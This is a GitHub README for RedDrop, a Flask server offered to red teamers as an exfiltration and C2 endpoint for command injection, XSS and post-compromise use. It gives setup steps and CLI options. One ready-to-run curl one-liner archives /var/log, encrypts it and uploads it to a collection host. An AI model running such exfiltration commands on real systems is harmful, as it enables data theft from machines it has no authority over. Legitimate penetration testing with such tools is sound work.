

# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```



## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
